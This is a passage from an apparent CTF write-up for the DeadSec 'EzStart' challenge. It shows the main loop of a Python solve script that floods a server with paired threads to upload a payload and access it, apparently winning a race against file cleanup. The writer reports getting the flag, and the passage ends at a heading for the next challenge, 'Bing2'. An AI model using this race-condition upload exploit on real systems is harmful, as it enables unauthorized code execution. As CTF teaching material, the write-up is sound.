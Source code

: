 ```python
if __name__ == "__main__":
    print("Using Max Threads of ", max_threads)
    for i in range(65535):
        current_timestamp = int(datetime.datetime.now().timestamp())
        t = threading.Thread(target=access_payload, args=(current_timestamp,))
        t2 = threading.Thread(target=upload_payload)

        t.start()
        t2.start()
        if threading.active_count() > max_threads:
            t.join()
            t2.join()
            print("Max Threads Reached")
            
```

And got the flag in no time 🙂

![EzStart-PoC](/assets/images/deadsec-writeups/ezstart-02.png)



## Bing2

- Difficulty: Easy

![Bing2](/assets/images/deadsec-writeups/bing2.png)
